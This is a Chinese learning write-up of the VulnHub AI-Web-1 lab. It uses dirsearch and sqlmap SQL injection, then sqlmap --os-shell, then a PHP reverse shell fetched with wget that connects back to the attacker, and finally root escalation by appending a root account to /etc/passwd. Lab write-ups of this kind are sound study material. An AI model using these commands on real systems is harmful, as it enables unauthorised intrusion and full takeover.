

来自之前cnblog的博客
源地址：https://www.cnblogs.com/This-is-Y/p/12064615.html
先上一张图：
靶机信息及地址：https://www.vulnhub.com/entry/ai-web-1,353/
下载到靶机后，在VMware里打开，kali使用arp-scan -l 扫到
在浏览器里打开，只有这样一句话：（我谷歌了一下这句话，没找到啥，，，，多此一举==）
然后开始dirsearch扫目录：
python dirsearch.py -u http://192.168.182.133/ -e *
只有这两个有用的信息
查看robots.txt文件
访问没有得到什么东西，继续扫
python dirsearch.py -u http://192.168.182.133/m3diNf0/ -e *
这里扫出info.php（先留着）
第二个，python dirsearch.py -u http://192.168.182.133/se3reTdir777 -e *
这里只扫出一个注入界面
火狐确认参数后 （ uid=123&Operation=Submit ）
sqlmap启动！
sqlmap http://192.168.182.133/se3reTdir777/index.php/login/ –data ‘uid=123&Operation=Submit’ –dbs
（新学会的post传参方法，再也不用bp抓包保存用 -r 来跑sqlmap了）
按部就班得的跑，得到这些数据
扫出来3个账号密码，但是似乎在嘲讽我，毕竟我也没找到后台登陆的界面。。。。。。。。
卡了我好久
这之后的90%是看的别人的博客完成的
使用sqlmap反弹一个shell（因为我们有info.php，里面给出了网址路径）
sqlmap http://192.168.182.133/se3reTdir777/index.php/login/ –data ‘uid=123&Operation=Submit’ –os-shell
这边的参数，第一个选4，PHP，然后是 n ，第二个选 2
地址在之前的info.php 中找：
/home/www/html/web1x443290o2sdf92213/se3reTdir777/uploads/（为什么是这个，我还要去多学学，目前没搞懂。）
成功后是这个样子的
与此同时，这时候在本机上准备一个php文件，写入
<?php
$sock=fsockopen(“192.168.182.128”,9966);
exec(“/bin/sh -i <&3 >&3 2>&3”);
?>
（注意：这里的ip地址192.168.182.128是你的kali的ip，端口可以随便写，不要冲突就行，其他建议照抄）
然后shift+右键，打开powershell,使用python搭建一个简易服务器，
python -m http.server 9000
这是在浏览器中输入127.0.0.1:9000就可以看到你刚刚写的文件了
学艺不精，为了搞懂这个原理写了好多个文件。
然后回到我们sqlmap写shell的那个界面，使用
wget -S http://你本机的IP地址:9000/aiweb1_1.php来下载
下载成功后是这个样子的
有时候可能会出现这种情况，多试两次就好了
然后换一个Terminal窗口，使用nc -lvp 9966监听端口
（这里的9966是，上面写的，并且通过wger下载到靶机上的，php文件里的写的端口）
然后切换回之前的terminal窗口，输入php aiweb1_7.php运行文件（实际作用是连接到你的kali的端口）
如果另一边监听没反应，多是两次，实在不行，检查php代码有没有写好，ip有没有填错。
正常情况是这个样子的，这样子就是已经连接上了

可以用id，whoami等命令查看一些信息
然后在这里， 使用python提升为交互式shell
python -c ‘import pty;pty.spawn(“/bin/bash”)’
增加一个root权限用户
先对密码进行加密
openssl passwd -1 -salt abc 000000
再写入账号密码
echo ‘abc:$1$abc$yzqAxwzjwaO0BUFj9nRwF/:0:0::/root:/bin/bash’>>/etc/passwdsu
切换用户
su abc
这样子就实现了提权
之后cat /root/flag.txt就得到了flag
先总结一下学到的，sqlmap反弹shell，以及反弹shell的原理，python在本地搭建一个简易服务器，wget下载文件，echo写入/etc/passwd文件添加新root用户再切换用户实现提权（大部分现在只是一个初步了解的阶段，还需要不断练习提升，熟悉）
再说说不会的
（1）sqlmap –os-shell时，为什么是选择/home/www/html/web1x443290o2sdf92213/se3reTdir777/uploads/这个路径
（2）php文件中的代码中的这一句exec(“/bin/sh -i <&3 >&3 2>&3”);具体是什么意思，如何理解
（3）python -c ‘import pty;pty.spawn(“/bin/bash”)’这玩意儿又是个啥东西
（4）echo ‘abc:$1$abc$yzqAxwzjwaO0BUFj9nRwF/:0:0::/root:/bin/bash’>>/etc/passwdsu写入文件的格式，参数